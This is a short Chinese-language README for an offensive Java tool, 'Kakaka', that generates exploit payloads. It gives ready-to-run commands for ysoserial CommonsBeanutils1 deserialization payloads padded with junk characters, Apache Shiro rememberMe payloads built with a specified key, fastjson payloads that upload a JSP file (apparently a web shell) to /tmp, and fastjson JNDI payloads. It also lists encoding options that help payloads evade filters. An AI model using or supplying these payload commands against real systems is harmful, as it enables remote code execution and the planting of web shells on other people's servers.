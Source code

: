 # Kakaka

## 生成各种payload

java -jar Kakaka.jar -yso CommonsBeanutils1 -c whoami -d 2000 -raw 生成一个带2000个脏字符的原始payload
 
java -jar Kakaka.jar -shiro -g CommonsBeanutils1 -c whoami -k a3dvbmcAAAAAAAAAAAAAAA== 指定key和gadget生成shiro payload

java -jar Kakaka.jar -fastjson upload -lf dogma.jsp -rf /tmp/dogma.jsp 生成fastjson文件上传payload

java -jar Kakaka.jar -fastjson jndi -u 127.0.0.1 

## 支持编码

按照参数顺序编码

支持：
  -ue  url编码
  -he  html编码
  -be  base64编码
  -xe  xml编码
